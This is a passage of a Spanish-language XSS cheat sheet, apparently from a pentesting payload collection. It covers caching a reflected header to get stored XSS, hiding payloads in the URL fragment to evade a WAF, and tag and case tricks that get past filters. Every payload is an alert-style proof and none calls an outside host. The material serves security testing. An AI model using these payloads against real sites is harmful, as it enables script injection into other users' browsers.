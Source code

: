 ```
curl -iH "Test: myValue" http://example.com/test123.php?cgonzalo
```

Si se refleja, inyectar el payload que desee para XSS:

```
curl -iH "XSS: <svg onload=alert(8)>" http://example.com/test123.php?nuevoxssstored
```

Repetir hasta que se muestre "header-especial: HIT", lo cual indica que se ha almacenado hasta que caduque la caché.


## Jump to URL Fragment

Úselo cuando necesite ocultar algunos caracteres de su carga útil que activarían un WAF.

Usa el payload después del fragmento de URL (#):

```
eval(URL.slice(-8)) #alert(1)

eval(location.hash.slice(1)) #alert(1)

document.write(decodeURI(location.hash)) #<img/src/onerror=alert(1)>
```

## PHP Spell Checker Bypass

Úselo para omitir la función "pspell_new" de PHP, que proporciona un diccionario para intentar adivinar la entrada utilizada para la búsqueda.

Una función similar a la de Google para los campos de búsqueda:

```
<scrpt> confirm(1) </scrpt>

<scrpt>write(1)</scrpt>

<scrpt> write(1) </scrpt>
```

## Filter Bypass and exotic payloads

### Bypass case sensitive

```javascript
<sCrIpt>alert(1)</ScRipt>
```

### Bypass tag blacklist

```javascript
<script x>
	
<script x>alert('XSS')<script y>
```
